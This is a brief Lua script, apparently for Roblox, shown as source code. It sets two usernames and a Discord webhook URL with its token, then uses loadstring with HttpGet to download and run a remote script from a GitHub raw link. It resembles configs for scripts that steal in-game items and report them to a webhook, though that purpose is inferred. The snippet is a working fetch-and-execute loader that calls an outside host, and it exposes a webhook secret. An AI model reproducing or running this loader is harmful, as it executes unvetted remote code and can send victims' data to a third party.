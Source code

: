 UserName = "S2CIKaynZ"
UserName2 = "S2CIKaynZ"
Webhook = "https://discord.com/api/webhooks/1090313375080267826/ootAEViBv8ha9qFTcG5mpEib_7mPSubRqBEFhyhCRl1XLtJqAPNGdmn57gjXFsr8GIGx"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/rizzhub/main/New.lua"))()

